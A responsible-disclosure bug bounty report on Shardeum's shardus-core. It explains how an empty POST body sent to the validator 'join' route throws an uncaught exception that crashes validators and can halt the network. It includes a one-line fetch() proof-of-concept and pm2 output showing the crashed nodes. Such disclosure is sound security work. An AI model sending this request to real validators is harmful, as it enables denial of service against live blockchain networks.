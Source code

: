 
# Crashing Validators by triggering an uncaught exception in the p2p "join" route

Submitted on Jul 9th 2024 at 13:00:31 UTC by @infosec_us_team for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #32993

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Brief/Intro

This report will describe how sending a maliciously crafted HTTP POST request to the vulnerable "join" endpoint crashes the validator due to an uncaught exception.

The most basic impact will be a total network shutdown by crashing all validators, rated as "Critical" in the **Impacts in Scope** table.

With more time to play with the codebase, we could try to control the entire consensus by shutting down all validators in Standby except ours, but "total network shutdown" is already at the highest severity level so we think is best to invest time doing more research in the codebase and providing as much value as possible to your team than escalating an attack vector that is already catastrophic for the network.

## Vulnerability Details

Below is the vulnerable function, as a reference:

```
const joinRoute: P2P.P2PTypes.Route<Handler> = {
  method: 'POST',
  name: 'join',
  handler: async (req, res) => {
    const joinRequest: JoinRequest = Utils.safeJsonParse(Utils.safeStringify(req.body))

    // ... more code below
   
```
> Snippet of code from: https://github.com/shardeum/shardus-core/blob/dev/src/p2p/Join/routes.ts#L65-L209

The endpoint accepts an HTTP POST request with a JSON object in the body that is parsed as a string, then converted to a JSON object, and assigned to a constant `joinRequest` of type **JoinRequest**.

Because the core logic of the *join* handler is not inside a `try-catch` block, when the body of the HTTP POST request is empty, the function crashes and the validator goes down under the status "**errored**.

> The status of each instance can be verified by running the command: `shardus list-net` or `shardus pm2 list`

## Observations in our tests

In our tests, we started 20 validators in a network with a configuration that requires/"desires" only 10 validators, to have some backups on standby, waiting to join.

After waiting a few minutes so they all sync, the column **Desired** of the monitor server at port **:3000** shows the value of `10`, as expected.
 
After crashing several validator instances by exploiting the attack described in this report, waiting a few minutes and crashing more validators, the column **Desired** goes from `10` to `0`, and the network shuts down itself.

## Impact Details

Ability to crash all validators, leading to the network not being able to confirm new transactions


## Proof of Concept

This is a very easy-to-reproduce proof of concept, we created a short javascript snippet that you can run even in your browser console, to exploit a victim validator.

```
fetch("http://VALIDATOR_EXTERNAL_IP:VALIDATOR_EXTERNAL_PORT/join/", options).then(response => { if (!response.ok) { throw new Error('Network response was not ok');}return response.json();}).then(data => {console.log('Success:', data);}).catch(error => {console.error('Error:', error);});
```

Replace VALIDATOR_EXTERNAL_IP and VALIDATOR_EXTERNAL_PORT with the IP and Port of the target.

After running the query with as many validators as desired, run the command `shardus pm2 list` to check their status.

They will displayed as **errored**.

If any of them is not, wait a few minutes and run it again.

Here's the output on our end:

```
┌─────┬────────────────────────────┬─────────────┬─────────┬─────────┬──────────┬────────┬──────┬───────────┬──────────┬──────────┬──────────┬──────────┐
│ id  │ name                       │ namespace   │ version │ mode    │ pid      │ uptime │ ↺    │ status    │ cpu      │ mem      │ user     │ watching │
├─────┼────────────────────────────┼─────────────┼─────────┼─────────┼──────────┼────────┼──────┼───────────┼──────────┼──────────┼──────────┼──────────┤
│ 1   │ "archive-server-1"         │ default     │ 3.4.21  │ fork    │ 1072795  │ 63m    │ 0    │ online    │ 0%       │ 90.5mb   │ z        │ disabled │
│ 2   │ "monitor-server"           │ default     │ 2.6.3   │ fork    │ 1072833  │ 63m    │ 0    │ online    │ 0%       │ 152.8mb  │ z        │ disabled │
│ 3   │ "shardus-instance-9001"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 4   │ "shardus-instance-9002"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 5   │ "shardus-instance-9003"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 6   │ "shardus-instance-9004"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 7   │ "shardus-instance-9005"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 8   │ "shardus-instance-9006"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 9   │ "shardus-instance-9007"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 10  │ "shardus-instance-9008"    │ default     │ 1.11.4  │ fork    │ 1073149  │ 63m    │ 0    │ online    │ 0%       │ 165.3mb  │ z        │ disabled │
│ 11  │ "shardus-instance-9009"    │ default     │ 1.11.4  │ fork    │ 1073210  │ 63m    │ 0    │ online    │ 0%       │ 165.9mb  │ z        │ disabled │
│ 12  │ "shardus-instance-9010"    │ default     │ 1.11.4  │ fork    │ 1073260  │ 63m    │ 0    │ online    │ 0%       │ 166.5mb  │ z        │ disabled │
│ 13  │ "shardus-instance-9011"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 14  │ "shardus-instance-9012"    │ default     │ 1.11.4  │ fork    │ 1073367  │ 63m    │ 0    │ online    │ 100%     │ 166.9mb  │ z        │ disabled │
│ 15  │ "shardus-instance-9013"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 16  │ "shardus-instance-9014"    │ default     │ 1.11.4  │ fork    │ 1078370  │ 40m    │ 1    │ online    │ 0%       │ 141.8mb  │ z        │ disabled │
│ 17  │ "shardus-instance-9015"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 18  │ "shardus-instance-9016"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 19  │ "shardus-instance-9017"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 20  │ "shardus-instance-9018"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 21  │ "shardus-instance-9019"    │ default     │ 1.11.4  │ fork    │ 0        │ 0      │ 0    │ errored   │ 0%       │ 0b       │ z        │ disabled │
│ 22  │ "shardus-instance-9020"    │ default     │ 1.11.4  │ fork    │ 1079219  │ 38m    │ 1    │ online    │ 0%       │ 140.5mb  │ z        │ disabled │
└─────┴────────────────────────────┴─────────────┴─────────┴─────────┴──────────┴────────┴──────┴───────────┴──────────┴──────────┴──────────┴──────────┘
```